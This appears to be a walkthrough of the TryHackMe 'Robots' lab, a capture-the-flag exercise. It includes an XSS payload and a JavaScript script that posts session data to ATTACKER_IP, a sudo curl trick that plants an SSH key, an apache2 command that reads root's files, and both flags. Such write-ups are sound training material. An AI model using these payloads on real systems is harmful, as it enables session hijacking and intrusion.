 
# 🤖 TryHackMe: Robots (Hard)

> A web application hacking challenge involving XSS, session hijacking, database exploitation, SSH pivoting, and multi-stage privilege escalation.

---

## 🎯 Objectives

- Identify vulnerable services and paths
- Exploit XSS for session hijacking
- Gain remote shell access
- Perform local enumeration and database extraction
- Pivot SSH users and escalate to root

---

## 🔧 Tools Used

- `nmap`, `curl`, `ffuf`
- `Python3 HTTP Server`, `nc`
- `MySQL Client`
- `chisel` (port forwarding)
- `ssh`
- `GTFOBins`
- `Burp Suite`

---

## 🔍 Scanning & Enumeration

Performed aggressive Nmap scan:

```bash
nmap -A -sV 10.10.151.212
```

Discovered open ports:
- 22/tcp (SSH)
- 80/tcp (HTTP – Apache 2.4.61)
- 9000/tcp (HTTP – Apache 2.4.52)

---

## 📄 Exploring `/robots.txt`

```bash
curl http://10.10.151.212/robots.txt
```

Found:
```
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
```

Added `robots.thm` to `/etc/hosts`.

---

## 🕵️ Web Application Analysis

Discovered:
- XSS vulnerability in username field (login page)
- `PHPSESSID` cookie was HttpOnly (could not directly steal)

Found `/harm/to/self/server_info.php` leaking `phpinfo()` with session data.

---

## 💥 Exploiting XSS to Hijack Session

Payload:
```html
<script src="http://ATTACKER_IP/xs3.js"></script>
```

**xs3.js** script:
```javascript
async function exfil() {
    const response = await fetch('/harm/to/self/server_info.php');
    const text = await response.text();

    await fetch('http://ATTACKER_IP/exfil', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: `data=${btoa(text)}`
    });
}
exfil();
```

- Exfiltrated session ID via listener on port 81
- Base64 decoded the PHPSESSID
- Logged in as admin

---

## 🛠️ Gaining Shell

- Found **admin.php** executing user-provided URLs.
- Hosted `shell.php` on attacker machine.
- Used RCE to get reverse shell back.

---

## 🗄️ Database Looting

- Discovered database credentials in PHP source code.
- Used **chisel** for port forwarding to MySQL.
- Extracted users table containing admin and rgiskard credentials.

SSH logged in as `rgiskard`.

---

## 🔥 Privilege Escalation - User to User

Checked `sudo -l`:

```bash
User rgiskard may run the following commands:
(dolivaw) /usr/bin/curl 127.0.0.1/*
```

Used curl to:
- Read `/home/dolivaw/user.txt` for **User Flag**:
```
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```

---

## 🧠 SSH Pivot to `dolivaw`

Uploaded SSH key by:
```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ATTACKER_IP/id_ed25519.pub -o /home/dolivaw/.ssh/authorized_keys
```

Logged in:
```bash
ssh -i id_ed25519 dolivaw@robots.thm
```

---

## 🏁 Privilege Escalation - Root

Checked `sudo -l`:

```bash
User dolivaw may run: /usr/sbin/apache2
```

Used GTFOBins trick:

Fixed APACHE_RUN_DIR error by:
```bash
sudo /usr/sbin/apache2 -C 'Define APACHE_RUN_DIR /tmp' -C 'Include /root/root.txt' -k stop
```

Extracted **Root Flag**:
```
THM{2a279561f5eea907f7617df3982cee24}
```

---

## 📚 What I Learned

- Exploiting HttpOnly cookies indirectly via phpinfo() leaks
- Building realistic XSS exfil scripts
- Chaining session hijack to RCE
- Database dumping through port forwarding
- SSH pivoting between users
- Root escalation via misconfigured sudo permissions on services

---

✅ End of Walkthrough.

